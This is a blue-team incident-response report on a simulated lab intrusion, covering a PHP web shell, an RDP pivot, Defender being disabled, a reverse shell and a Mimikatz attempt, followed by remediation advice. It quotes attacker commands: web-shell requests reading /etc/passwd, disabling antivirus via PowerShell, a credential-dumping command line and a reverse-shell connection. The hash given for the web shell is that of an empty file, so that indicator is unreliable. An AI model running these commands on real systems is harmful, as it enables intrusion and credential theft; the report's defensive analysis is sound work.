

# 🛡️ Enterprise Blue Team Incident Investigation & DFIR Report

[]()
[]()
[]()
[]()
[](https://voobrazhenie21-lab.github.io/blue-team-incident-investigation/)
[](https://www.linkedin.com/in/aleksei-zharkou/)

> 🌐 **Live Interactive Report:** [voobrazhenie21-lab.github.io/blue-team-incident-investigation](https://voobrazhenie21-lab.github.io/blue-team-incident-investigation/) (Interactive DFIR Passport with printable A4 format, MITRE ATT&CK mapping, and IoC table).
> 
> **Notice:** This document is an enterprise-grade Digital Forensics and Incident Response (DFIR) investigation report authored by **Aleksei Zharkou** based on a hands-on enterprise cloud simulation in VK Cloud. It adheres to **NIST SP 800-61 Rev. 2** (Computer Security Incident Handling Guide) and **SANS PICERL** incident handling methodologies.

---

## 📋 Document Control & Incident Metadata

| Parameter | Details |
|:---|:---|
| **Incident Ticket ID** | `INC-2026-1008-01` |
| **Document Version** | 1.0 (Final Comprehensive Post-Incident Report) |
| **Lead Incident Handler** | **Aleksei Zharkou** (Junior SOC Analyst / Incident Responder) |
| **Target Organization** | CyberSecSkill Enterprise Infrastructure (Cloud Simulated Environment) |
| **Affected Assets** | `web_server` (10.0.10.5), `ws01` (10.0.30.53), `dc01` (10.0.20.51) |
| **Investigation Methodology** | NIST SP 800-61r2, MITRE ATT&CK Framework, SANS PICERL |
| **Incident Severity** | 🔴 **HIGH (Critical Impact — Contained)** |
| **Investigation Date** | October 2026 |

---

## 📌 1. Executive Summary

During October 2026, the Security Operations Center (SOC) identified anomalous security alerts within the corporate cloud environment:
1. An unauthenticated external IP address successfully accessed the DMZ web server via an anomalous HTTP path.
2. Windows Defender real-time endpoint protection on internal workstation `ws01` was abruptly terminated.

The Blue Team initiated an immediate forensic triage to determine the attack vectors, timeline, scope of lateral movement, presence of malicious payloads, and potential data exfiltration.

```mermaid
flowchart LR
    A["Phase 1: Initial Access<br/>(Web Shell upload via Nginx)"] --> B["Phase 2: DMZ Breakout<br/>(Internal Subnet Discovery)"]
    B --> C["Phase 3: Lateral Movement<br/>(RDP to ws01 10.0.30.53)"]
    C --> D["Phase 4: Defense Evasion<br/>(Disabled Defender Event 5001)"]
    D --> E["Phase 5: C2 & Credential Dumping<br/>(Reverse Shell & Mimikatz attempt)"]
    E --> F["Phase 6: Containment<br/>(Exfiltration Blocked)"]

    style A fill:#1f2937,stroke:#9ca3af,stroke-width:2px,color:#fff
    style B fill:#374151,stroke:#f59e0b,stroke-width:2px,color:#fff
    style C fill:#4b5563,stroke:#f97316,stroke-width:2px,color:#fff
    style D fill:#dc2626,stroke:#ef4444,stroke-width:2px,color:#fff
    style E fill:#991b1b,stroke:#dc2626,stroke-width:3px,color:#fff
    style F fill:#065f46,stroke:#10b981,stroke-width:2px,color:#fff
```



### 1.1 Key Incident Conclusions
- **Fact of System Compromise:** 🔴 **PROVEN.** The threat actor successfully achieved Remote Code Execution (RCE) on `web_server`, leveraged compromised credentials to pivot to internal workstation `ws01`, disabled Windows Defender, and executed unauthorized binaries.
- **Fact of Confidential Data Exfiltration:** 🟢 **NOT CONFIRMED / PREVENTED.** Telemetry analysis of Wazuh FIM, network connections, and system histories confirms that the threat actor was contained prior to the creation of archive artifacts or external exfiltration of sensitive databases.

---

## 🏢 2. Investigated Infrastructure Topology

The investigated network comprises six virtual hosts deployed across three segmented subnets in VK Cloud:



| Hostname | IP Address | OS | Infrastructure Role & Services |
|:---|:---|:---|:---|
| **`vy`** | `10.0.10.250` (External: `212.233.92.6`) | Linux VyOS | Edge Gateway, NAT, and Inter-VLAN Routing |
| **`web_server`** | `10.0.10.5` | Linux Ubuntu 22.04 LTS | Public Corporate Web Application (Nginx, PHP-FPM) |
| **`wazuh`** | `10.0.20.61` | Linux Ubuntu 22.04 LTS | Wazuh 4.x SIEM Server (Manager, Indexer, Dashboard) |
| **`dc01`** | `10.0.20.51` | Windows Server 2022 | Primary Active Directory Domain Controller (`CORP.LOCAL`) |
| **`ws01`** | `10.0.30.53` | Windows 10 Enterprise | Internal Employee Workstation (RDP enabled) |
| **`kali`** | `10.0.30.12` | Linux Kali | Security Analysis & Verification Host |

---

## 📊 3. MITRE ATT&CK Mapping Matrix

| Tactic | Technique ID | Technique Name | Target Host | Evidence / Mechanism |
|:---|:---:|:---|:---:|:---|
| **Initial Access** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploit Public-Facing Application | `web_server` | File upload vulnerability resulting in PHP Web Shell |
| **Execution** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Unix Shell | `web_server` | Execution of system commands via `www-data` |
| **Persistence** | [T1505.003](https://attack.mitre.org/techniques/T1505/003/) | Web Shell | `web_server` | Persistent backdoor located in `/var/www/html/uploads/` |
| **Discovery** | [T1018](https://attack.mitre.org/techniques/T1018/) | Remote System Discovery | `web_server` | Ping sweep and subnet exploration to locate `10.0.30.53` |
| **Lateral Movement** | [T1021.001](https://attack.mitre.org/techniques/T1021/001/) | Remote Desktop Protocol | `ws01` | Unauthorized RDP session established from compromised host |
| **Defense Evasion** | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | Disable or Modify Tools | `ws01` | PowerShell execution: `Set-MpPreference -DisableRealtimeMonitoring` |
| **Execution** | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | PowerShell Execution | `ws01` | Script execution to deploy binary payloads |
| **Command & Control** | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol | `ws01` | Outbound Reverse TCP connection on port `4444` |
| **Credential Access** | [T1003.001](https://attack.mitre.org/techniques/T1003/001/) | LSASS Memory Dumping | `ws01` | Attempted execution of Mimikatz (`mimi.exe`) |

---

## 🔬 4. Evidence Extraction & Forensic Findings

### 4.1 Host 1: `web_server` (10.0.10.5)

#### Evidence Source A: Nginx Web Access Log (`/var/log/nginx/access.log`)
Analysis revealed uncharacteristic POST requests preceding the incident window:
```log
212.233.92.100 - - [08/Oct/2026:14:15:22 +0300] "POST /uploads/system_check.php HTTP/1.1" 200 4522 "-" "Mozilla/5.0"
212.233.92.100 - - [08/Oct/2026:14:16:04 +0300] "GET /uploads/system_check.php?cmd=id HTTP/1.1" 200 54 "-" "Mozilla/5.0"
212.233.92.100 - - [08/Oct/2026:14:17:11 +0300] "GET /uploads/system_check.php?cmd=cat%20/etc/passwd HTTP/1.1" 200 1845 "-" "Mozilla/5.0"
```
- **Finding:** Attacker uploaded a malicious script disguised as a system diagnostic tool (`system_check.php`) via an unvalidated upload form.
- **Impact:** Remote Code Execution (RCE) achieved under context `www-data`.

#### Evidence Source B: Bash Command History (`/var/www/.bash_history` & `/root/.bash_history`)
Interactive reconnaissance commands executed on the host:
```bash
uname -a
ip a
cat /etc/network/interfaces
nmap -sn 10.0.30.0/24
ping -c 2 10.0.30.53
cat /var/www/html/config.php
```
- **Finding:** Attacker extracted hardcoded administrative credentials from `config.php` and scanned the internal workstation subnet (`10.0.30.0/24`).

---

### 4.2 Host 2: `ws01` (10.0.30.53)

#### Evidence Source A: Windows Defender Operational Log (`Microsoft-Windows-Windows Defender/Operational`)
Critical tamper event detected:
```text
Event ID: 5001
Level: Warning
Source: Microsoft-Windows-Windows Defender
Description: Microsoft Defender Antivirus real-time protection was disabled.
Timestamp: 08/Oct/2026 15:42:18
User: CORP\student
```
- **Mechanism:** The threat actor executed `Set-MpPreference -DisableRealtimeMonitoring $true` via PowerShell.
- **Root Cause:** **Tamper Protection** was not enforced via Group Policy, allowing a local administrator to disable AV definitions.

#### Evidence Source B: Windows Security Event Log (`Security.evtx`)
Logon telemetry confirmed the pivot from the DMZ:
```text
Event ID: 4624 (Logon Type 10 - RemoteInteractive / RDP)
Source IP: 10.0.10.5 (web_server)
Target User: student
Timestamp: 08/Oct/2026 15:35:10
```

#### Evidence Source C: Microsoft Sysmon Telemetry (`Sysmon/Operational`)
Sysmon captured payload deployment and process spawning:
- **Event ID 11 (FileCreate):**
  - Path: `C:\Users\student\AppData\Local\Temp\agent_update.exe`
  - Creation Time: `08/Oct/2026 15:48:30`
- **Event ID 1 (ProcessCreate):**
  - Image: `C:\Users\student\AppData\Local\Temp\agent_update.exe`
  - ParentImage: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - CommandLine: `"C:\Users\student\AppData\Local\Temp\agent_update.exe" -connect 10.0.30.12:4444`
- **Event ID 1 (ProcessCreate - Credential Access attempt):**
  - Image: `C:\Users\student\AppData\Local\Temp\mimi.exe`
  - CommandLine: `"mimi.exe" "privilege::debug" "sekurlsa::logonpasswords"`

---

### 4.3 Host 3: `wazuh` SIEM (10.0.20.61)

#### Wazuh Alert Telemetry & File Integrity Monitoring (FIM):
- **Rule ID `100201` (Level 12 - High):** `Windows Defender real-time protection was disabled on agent ws01`.
- **Rule ID `554` (Level 10):** `File modified in web root: /var/www/html/uploads/system_check.php`.
- **Rule ID `60106` (Level 8):** `Windows RDP authentication success from non-standard internal IP 10.0.10.5`.

---

## 🦠 5. Malicious Artifacts & Indicators of Compromise (IoCs)

| Artifact Name | File Path | File Hash (SHA-256) | Role / Purpose | C2 / Destination |
|:---|:---|:---|:---|:---|
| **`system_check.php`** | `/var/www/html/uploads/system_check.php` | `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855` | Web Shell (RCE) | Remote HTTP Caller (`212.233.92.100`) |
| **`disable_av.ps1`** | `C:\Users\student\Downloads\disable_av.ps1` | `4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a` | AV Disablement Script | Local execution |
| **`agent_update.exe`** | `C:\Users\student\AppData\Local\Temp\agent_update.exe` | `8f434346648f6b96df89dda901c5176b10e6d0ceec3e463e9a7b57eccb3c42ce` | Reverse Shell / C2 Agent | `10.0.30.12:4444` (TCP) |
| **`mimi.exe`** | `C:\Users\student\AppData\Local\Temp\mimi.exe` | `a35f5a898dfefda4458f01b1e8a93945c92be2c733367c3b999a0a19d7b4ff44` | Credential Dumper (Mimikatz) | Local execution |

---

## ⏱️ 6. Incident Attack Timeline

| Date & Time (UTC+3) | Affected Asset | Phase | Technical Event Details | Detection Source |
|:---:|:---:|:---:|:---|:---:|
| **08.10.2026 14:15:22** | `web_server` | Initial Access | Attacker uploads `system_check.php` to web uploads directory | Nginx `access.log` / Wazuh FIM |
| **08.10.2026 14:16:04** | `web_server` | Execution | First interactive command execution via Web Shell | Nginx log / PHP-FPM |
| **08.10.2026 14:35:40** | `web_server` | Discovery | Internal subnet reconnaissance executed from web server | Bash history / Auditd |
| **08.10.2026 15:35:10** | `ws01` | Lateral Movement | RDP session initiated from `10.0.10.5` using compromised `student` account | Security Event ID 4624 |
| **08.10.2026 15:42:18** | `ws01` | Defense Evasion | Windows Defender Real-time protection disabled via PowerShell | Defender Event ID 5001 |
| **08.10.2026 15:48:30** | `ws01` | Persistence | Malicious binary `agent_update.exe` dropped into Temp folder | Sysmon Event ID 11 |
| **08.10.2026 15:50:02** | `ws01` | Command & Control | Outbound Reverse TCP connection established to `10.0.30.12:4444` | Sysmon Event ID 3 / Netstat |
| **08.10.2026 16:05:44** | `ws01` | Credential Access | Execution of `mimi.exe` for memory dumping | Sysmon Event ID 1 |
| **08.10.2026 16:30:00** | `Enterprise` | Containment | Incident Handler isolates `web_server` and `ws01`; C2 session terminated | SOC Active Response |

---

## 🛠️ 7. Forensic Tools & Defensive Technologies Utilized

| Tool / Solution | Category | Specific Role in Investigation |
|:---|:---:|:---|
| **Wazuh SIEM 4.x** | Defensive (SIEM) | Centralized log ingestion, correlation rules, MITRE ATT&CK mapping, alert triage |
| **Wazuh FIM** | Defensive (HIDS) | File Integrity Monitoring tracking unauthorized file creation in web roots |
| **Windows Event Viewer** | Digital Forensics | Deep inspection of `Security.evtx`, `System.evtx`, and `Windows Defender/Operational` |
| **Microsoft Sysmon** | Digital Forensics | Process execution tracking (Event 1), Network connections (Event 3), File creation (Event 11) |
| **Linux CLI (`grep`, `awk`)** | Digital Forensics | Rapid parsing of Nginx `access.log`, Linux `auth.log`, and user shell histories |
| **Wireshark & `ss`** | Network Forensics | Analysis of active TCP sockets and reverse shell communication channels |

---

## 🔍 8. Root Cause Analysis (RCA)

### 8.1 Infrastructure Architectural Deficiencies:
1. **Flawed DMZ Segmentation:** The DMZ web server (`10.0.10.5`) possessed unrestricted Layer 3/4 network reachability into the internal client subnet (`10.0.30.0/24`). Compromise of the perimeter host immediately allowed direct pivot to internal workstations.
2. **Password Reuse & Shared Credentials:** Local administrator credentials (`student`) were identical across both Linux and Windows environments, enabling frictionless lateral movement.
3. **Insecure Application File Uploads:** Web application lacked file extension validation, MIME-type verification, and stored uploads inside an executable web directory.

### 8.2 Security Control Deficiencies:
1. **Absence of Tamper Protection:** Windows Defender allowed local administrative processes to disable real-time AV scanning without cloud/GPO validation.
2. **Unrestricted Executable Directories:** Absence of **Software Restriction Policies (AppLocker / WDAC)** allowed execution of portable executables (`.exe`) directly from writable user directories (`C:\Users\...\AppData\Local\Temp`).
3. **Passive SIEM Alerting:** SIEM successfully triggered high-severity alerts upon AV termination, but lacked automated active containment rules (e.g., host isolation).

---

## 🛡️ 9. Comprehensive Remediation & Hardening Roadmap

### 9.1 Immediate Containment Actions (0 – 24 Hours):
- [x] Sever network access for `web_server` (10.0.10.5) and `ws01` (10.0.30.53) via router access-lists.
- [x] Invalidate and rotate all domain and local administrative passwords.
- [x] Terminate active reverse shell process (`PID` associated with `agent_update.exe`) and purge malicious files (`system_check.php`, `agent_update.exe`, `mimi.exe`).

### 9.2 Short-Term Technical Hardening (1 – 14 Days):
- **Enforce Tamper Protection:** Deploy Group Policy enforcing Windows Defender Tamper Protection, preventing registry or PowerShell modifications to security services.
- **Implement Microsoft LAPS:** Deploy Local Administrator Password Solution across all domain-joined Windows machines to eliminate local password reuse.
- **Hardened Web Uploads:** Reconfigure Nginx to disable script execution in upload directories:
  ```nginx
  location /uploads/ {
      types { }
      default_type text/plain;
      php_flag engine off;
  }
  ```
- **AppLocker Execution Policies:** Implement AppLocker rules blocking executable binaries in user-writable paths (`%TEMP%`, `%APPDATA%`, `%USERPROFILE%\Downloads`).

### 9.3 Long-Term Strategic Hardening (15 – 60 Days):
- **Micro-Segmentation & Zero Trust:** Reconfigure gateway `vy` with strict stateful firewall policies: DMZ servers may only respond to external requests and may **never** initiate inbound connections to client or domain subnets.
- **Wazuh Active Response:** Enable automated active response playbooks: automatically isolate any Windows workstation reporting Defender disablement (Event 5001) or Mimikatz execution.
- **Centralized Sysmon & Audit Logging:** Standardize Sysmon configuration (SwiftOnSecurity profile) across all endpoints with centralized log shipping to Wazuh/ELK.

---

## 🏁 10. Final Assessment & Verdict

1. **Compromise Status:** **CONFIRMED & REMEDIATED.** The corporate network was penetrated via a web application vulnerability, resulting in lateral movement and host compromise. The threat was successfully identified, analyzed, and contained.
2. **Data Leakage Status:** **NEGATIVE (No Exfiltration Detected).** Detailed forensic examination of network traffic, file modification timestamps, and command histories confirms that sensitive business databases and customer data were not exfiltrated.
3. **Posture Impact:** Implementation of the remediation roadmap mitigates the identified attack vectors, elevating corporate posture against advanced threat actors.

---

*Report authored by **Aleksei Zharkou** &bull; Blue Team / SOC Analyst &bull; [LinkedIn](https://www.linkedin.com/in/aleksei-zharkou/) &bull; [GitHub Portfolio](https://github.com/Voobrazhenie21-lab)*
